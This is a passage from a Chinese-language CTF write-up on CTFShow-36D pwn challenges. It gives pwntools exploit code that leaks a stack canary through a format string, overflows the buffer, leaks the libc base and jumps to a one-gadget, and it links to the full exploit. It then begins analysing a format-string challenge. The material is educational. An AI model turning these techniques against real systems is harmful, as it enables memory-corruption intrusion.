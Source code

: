 ### 解题思路
```python
sea('你怎么了？\n','%9$p') # canary
canary = eval(rc(18))
info_addr('canary',canary)
sea('烫烫烫烫烫烫烫烫烫烫烫烫\n','TaQini')

payload = cyclic(56)+p64(canary)
payload = payload.ljust(88,'T')
payload += '\x16'  # ret2libc_start_main
sea('...你把手离火炉远一点！\n',payload)
```

> 泄漏canary、ret2libc_start_main

```python
# round2
sea('你怎么了？\n','%23$p') # canary
libc_start_main_ret = eval(rc(14))
info_addr('libc_start_main_ret',libc_start_main_ret)
libcbase = libc_start_main_ret - 0x20830
info_addr('libcbase',libcbase)
og = libcbase + 0xf1147
sea('烫烫烫烫烫烫烫烫烫烫烫烫\n','TaQini')

pl2 = cyclic(56)+p64(canary)
pl2 = pl2.ljust(88,'Q')
pl2 += p64(og)
sea('...你把手离火炉远一点！\n',pl2)
```

> 泄漏libc、one gadget

### More

you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/CTFShow-36D/pwn/tang) 

## PWN_babyFmtstr (526pt)
- 题目描述：
  
    > none
- 题目附件：[PWN_babyFmtstr](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/CTFShow-36D/pwn/PWN_babyFmtstr/PWN_babyFmtstr)
- 考察点：格式化字符串
- 难度：一般

### 程序分析
看题目名，应该是个有**格式化字符串漏洞**的题，主函数如下：

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3){
  char *ptr; // ST08_8
  char *v4; // ST10_8

  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  ptr = fsb();
  v4 = motto();
  printf("your motto is \"%s\"\n", v4);
  free(ptr);
  free(v4);
  return 0LL;
}
```
